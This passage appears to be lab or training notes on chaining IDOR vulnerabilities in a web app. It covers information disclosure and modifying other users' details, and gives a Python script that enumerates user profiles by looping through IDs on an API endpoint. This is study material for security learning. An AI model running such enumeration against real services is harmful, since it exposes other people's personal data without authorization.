 ## **Chaining IDOR Vulnerabilities**

### **Information Disclosure**

Send a `GET` request with another `uid`:

![image.png](../Images/VWA_image10.png)

### **Modifying Other Users' Details**

![image.png](../Images/VWA_image11.png)

### Enumerating Users using API GET-Request (python script)

```python
import requests

for i in range(1,101):
    url=f'http://94.237.63.109:50507/profile/api.php/profile/{i}'
    try:
        response = requests.get(url, timeout=5)
        if response.status_code == 200:
            try:
                print(response.json())
            except:
                print(f'User with id={i} not found :(')
        else:
            print('[!] Error')
    except requests.RequestException as e:  # Captura errores como timeout, conexión rechazada, etc.
        print(f"[!] ID {i} - Error al realizar la solicitud: {e}. Saltando.")
```
